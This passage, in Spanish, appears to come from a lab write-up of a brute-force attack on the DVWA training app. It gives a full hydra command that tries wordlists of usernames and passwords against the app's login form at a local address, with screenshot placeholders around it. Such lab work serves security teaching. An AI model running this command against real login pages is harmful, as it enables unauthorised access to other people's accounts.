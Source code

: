 Manteniendo el nombre y el formato indicado al inicio.

![](imgs/attack_2/capture_8.png)

#### B) Ejecución del Script de hydra.

Para realizar correctamente el ataque de fuerza bruta, le indicaremos a hydra la siguiente instrucción:

    hydra 192.168.68.107 http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed" -L usernames.txt -P passwords.txt

![](imgs/attack_2/capture_9.png)

